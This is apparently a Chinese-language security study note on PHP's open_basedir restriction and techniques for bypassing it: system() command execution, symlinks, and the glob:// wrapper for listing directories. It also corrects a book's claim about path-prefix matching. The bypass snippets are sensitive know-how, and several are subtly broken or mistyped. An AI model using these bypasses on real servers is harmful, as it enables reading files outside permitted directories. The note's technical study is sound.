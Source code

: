 



Open_basedir  指令用来限制php只能访问哪些目录,所有php中相关文件读写的函数都会经过  `open_bsaedir` 的检查(但不限制system的命令执行)

设置open_basedir 的方法，在linux下，不同的目录由`:` 分割

    ini_set('open_basedir','/var/www/a/:/tmp');

在window下不同目录由`;`分割

###绕过方法###
1.通过命令执行函数
```
<php?
system('cat ../../1.text');
?>```

2.通过软连接绕过

```
symlink("tmplink/../../1.txt","exploit");
echo file_put_contents("http://127.0.0.1/exploit");
```

3.通过glob伪协议
```
<?php
        $a = "glob:///var/www/test/*.txt";
        if ( $b = opendir($a) ) {
                while ( ($file = readdir($b)) !== false ) {
                        echo "filename:".$file."\n";
                }
                closedir($b);
        }
?>
```


先来纠正一个《代码审计》一书中的小错误（可能是已修复）, 书中说指定的限制实际上是前缀，而不是目录名，例如，如果配置open_basedir=/www/a , 那么目录`/www/a` 和 `/www/ab` 都是可以访问的。 所以如果要将访问权限限制在指定的目录内， 请用斜线结束路径名。 

自己试了下发现无论是否已斜线结尾都表示目录名

```php
<?php 
ini_set('open_basedir','/var/www/a');

var_dump(scandir('/var/www/a')); //执行正确
var_dump(scandir('/var/www/ab')); //报错
```


### 一个失效的直接列举目录的方法(php 5.6环境可用)

在p牛的博客中介绍的一种利用DirectoryIterator + Glob 直接列举目录的方法，glob 数据流包装器从php5.3.0 起开始有效的， 用来查找匹配的文件路径。   此方法在linux列举目录无视open_basedir.
